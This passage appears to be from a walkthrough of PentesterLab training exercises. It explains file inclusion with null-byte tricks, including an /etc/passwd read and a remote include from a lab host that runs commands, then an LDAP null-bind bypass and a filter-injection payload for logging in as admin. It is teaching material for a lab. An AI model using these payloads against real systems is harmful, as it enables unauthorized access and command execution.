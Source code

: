 For an LFI demonstration, we could use the URL `libcurl.so/?page=/etc/passwd%00`, or any other locally available file.

For our RFI, and to score the challenge, we'll use a NULL-byte after our remote URL script, and put our commands after it, like `libcurl.so/?page=http://assets.pentesterlab.com/test_include_system.txt%00&c=id`. To score the challenge, replace the `id` command at the end of the URL with `/usr/local/bin/score UUID`.

### Essential 29// LDAP 01
[Challenge URL](https://pentesterlab.com/exercises/ldap_01/course)

This challenge, we're exploiting a flaw in configuration of an LDAP (Lightweight Directory Access Protocol) server. We're given a login page, with no option to register a new user for this challenge. Instead, we'll be bypassing the auth process by exploiting the fact that the server authorizes a NULL Bind. If we send `null` values instead of a username and password combo, the underlying `php` code interprets it incorrectly an authenticated user. While the login page is supposed to prevent this behavior, the LDAP server itself is still configured to allow NULL/anonymous connections. 

To exploit this, we'll inspect the request sent on a login attempt. We can see a `username=&password=` object in the request payload. Sending a blank user and pass combo won't authenticate us. However, if we edit the request in ZAP, completely remove the user/password object and send an empty/NULL request body/payload, we can see in the response the server authenticates us and gives us the key for this challenge. 

### Essential 30// LDAP 02
[Challenge URL](https://pentesterlab.com/exercises/ldap_02/course)

Here we're exploiting a flaw in LDAP's conditional processing. LDAP syntax takes input based on a conditional filter based on `(cn=[USERINPUT])`, often using boolean operators of OR (`|` char) or AND (`&` char). The syntax for these conditionals is to go before the input statement, i.e. `(|(cn=[INPUT1])(cn=[INPUT2]))` for *OR* to return values that match either input, and `(&(cn=[INPUT1])(userpassword=[INPUT2]))` for *AND*. We can also use a wildcard (`*`) to match *any* value, or any value matching a substring lke `adm*`.

To test this instances filtering/conditionals, we'll start with `hacker/hacker` as our name/password combo in the URL, which authenticates us normally. If we change it to `ha*/hacker`, it still authenticates us as the `hacker` user, as the wildcard will match all entries starting with `ha` and attempt to use the password `hacker` with it. However, if we try the same thing in the password field, i.e. `hacker/ha*`, auth fails, very likely indicating the password is being hashed on the server. From this, our auth logic probably looks similar to `(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))`. Due to the likely hash on the password field, our injection is restricted to the `name` input. We'll again be using a NULL-byte (`%00`) at the end of our query to drop the remainder of the filter.

In order to bypass the authentication, we'll inject a `)` to close the current filter so it matches on the username only, use a conditional that always evaluates to TRUE, i.e. `(cn=*)`, another `)` to keep the syntax correct, and a NULL-byte at the end to drop the rest of the filter. All together, using the payload `?name=hacker)(cn=*))%00` will cause the webpage to return a notice about an undefined index, *however it will still authenticate us as the user Hacker.* From here, we can change the first `?name=` parameter to `admin` to authenticate as the `admin` user directly, or we could use `?name=a*`, which will cause the server to authenticate as the first user in the database who's username starts with the letter 'a', in this case also the `admin` user. Either way will allow you to retrieve the key for this challenge. 

### Essential 31// MongoDB Injection 01
[Challenge URL](https://pentesterlab.com/exercises/mongo_01/course)
